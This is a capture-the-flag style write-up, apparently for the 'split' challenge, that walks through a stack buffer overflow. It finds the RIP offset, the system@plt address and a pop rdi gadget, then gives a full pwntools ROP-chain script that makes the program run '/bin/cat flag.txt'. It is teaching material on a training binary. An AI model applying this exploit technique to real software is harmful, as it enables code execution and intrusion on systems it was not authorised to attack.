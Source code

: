 ```bash
[0x00400741]> pxq 8@rsp
0x7ffc4d476d88  0x41415041414f4141                       AAOAAPAA
# finds given value into a de bruijn sequence (how much garbage do we need to get to RSP)
[0x00400741]> wopO 0x41415041414f4141
40
```

This means the RIP offset is 40 bytes (we already know this). Lets find the system@plt address so we can call system later.

```bash
$ objdump -d split | grep system@plt
0000000000400560 <system@plt>:
  40074b:	e8 10 fe ff ff       	callq  400560 <system@plt>
```

So the system@plt address is 0x400560, we know the /bin/cat flag.txt string is at address 0x00601060, and we need 40 bytes of garbage at the beginning of the payload. Our goal is to use system() to call /bin/cat flag.txt as the first argument, and $rdi is used to pass the first argument to the called function (based off this [x64 cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)). We can do this using ROPgadget.

```bash
$ ROPgadget --binary split | grep rdi
0x0000000000400288 : loope 0x40025a ; sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x00000000004007c3 : pop rdi ; ret
0x000000000040028a : sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
```

the pop rdi; ret is the one we want. The ROP chain we have now is: garbage for $rip offset + pass address of /bin/cat flag.txt into $rdi + call system() with this argument. We can construct the pwntools script now.

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./split")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

# addresses/data
OFFSET = 40
POP_RDI = p64(0x00000000004007c3)
BIN_CAT_FLAG_ADDR = p64(0x00601060)
SYSTEM_CALL_ADDR = p64(0x400560)

rop.raw(b"A"*OFFSET)            # junk: RIP offset
rop.raw(POP_RDI)                # rop rdi: ROPgadget --binary split | grep rdi 
rop.raw(BIN_CAT_FLAG_ADDR)      # cat addr: rabin2 -z split
rop.raw(SYSTEM_CALL_ADDR)       # system@plt: objdump -d split | grep system@plt 

# chain: junk + pop rdi + cat address + system@plt
p.sendline(rop.chain())
print(p.recvall().decode("utf-8").split("\n")[1])
```
